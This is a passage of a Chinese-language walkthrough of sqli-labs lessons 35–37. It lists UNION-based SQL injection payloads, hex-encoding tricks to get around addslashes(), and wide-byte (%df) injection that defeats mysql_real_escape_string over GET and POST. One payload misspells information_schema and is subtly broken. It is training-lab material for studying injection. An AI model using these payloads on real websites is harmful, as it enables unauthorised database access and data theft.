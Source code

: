 `uname=admin%E6' union select version(),database()--+&passwd=admin&submit=Submit`

其余部分就不再多说了，仍旧是需要注意，对'users'进行编码

与上一题的区别就是，改变了传递方式

***
# less 35(why care for addslashes())
## 原理
用的是数字型，没有引号闭合，所以说不需要担心addslashes()对引号的影响

但是，要注意查询数据的时候数据库名表名列名要添加单引号包括

所以可以用字符串转16进制达到绕过的目的


## 步骤
1.测试payload

`?id=-1 union select 1,2,3 --+`

页面回显

2.正常注入，爆库

`?id=-1 union select 1,2,database() --+`

3.爆表

`?id=-1 union select 1,2,group_concat(table_name) from infomation_schema.columns where table_schema=0x7365637572697479 --+`

剩余步骤不再赘述


***
# less 36(绕过MYSQL_real_escape_string函数)
## 原理
>调用mysql库的函数 mysql_real_escape_string, 在以下字符前添加反斜杠: \x00, \n, \r, \, ', " 和 \x1a.

利用%DF，字符串转16进制加0x
## 步骤
1.测试显示位

`?id=-1%df' union select 1,2,3 --+`

2.爆库

`?id=-1%df' union select 1,2,database()--+`

后续步骤不再重述。

***
# less 37(POST方式绕过MYSQL_real_escape_string)
## 原理
还是宽字节注入，只不过提交参数方式改为了POST
